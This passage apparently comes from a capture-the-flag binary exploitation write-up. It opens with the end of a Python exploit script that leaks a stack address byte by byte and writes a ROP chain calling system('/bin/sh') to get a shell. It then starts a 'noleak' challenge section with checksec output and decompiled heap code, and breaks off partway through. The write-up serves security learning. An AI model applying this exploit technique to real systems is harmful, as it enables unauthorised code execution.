 ```python
leak('pop rdi',pop_rdi)

off_1, off_80 = cal_offset(env, textbase)
temp = int(math.sqrt(off_80))
off_1 = (off_80 - temp**2)*80 + off_1
stack_leak = ''
for i in range(off_1,off_1+6):
    sh.sendline(str(i))
    sh.sendline(str(temp))
    sh.sendline(str(temp))
    rev = u8(sh.recv(1))
    stack_leak = stack_leak+p8(rev)
    leak(str(i-off_1),rev)
stack_leak = u64(stack_leak.ljust(8,'\x00'))-0xf0
leak('stack_leak',stack_leak)

write(stack_leak, textbase, pop_rdi)
write(stack_leak+8, textbase, binsh)
write(stack_leak+16, textbase, system)

sh.interactive()
```

# noleak

## check

```shell
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## IDA

**add**

```
__int64 add()
{
  __int64 result; // rax
  int v1; // [rsp+0h] [rbp-10h]
  int nbytes; // [rsp+4h] [rbp-Ch]
  void *nbytes_4; // [rsp+8h] [rbp-8h]

  puts("Input index:");
  v1 = sub_9E0();
  puts("Input size:");
  nbytes = sub_9E0();
  if ( v1 < 0 || v1 > 10 || nbytes < 0 || nbytes > 496 )
  {
    puts("index or size invalid!");
    result = 0xFFFFFFFFLL;
  }
  else
  {
    nbytes_4 = malloc(nbytes);
    puts("Input data:");
    read(0, nbytes_4, (unsigned int)nbytes);
    *((_QWORD *)&unk_2020C0 + 2 * v1) = nbytes_4;
```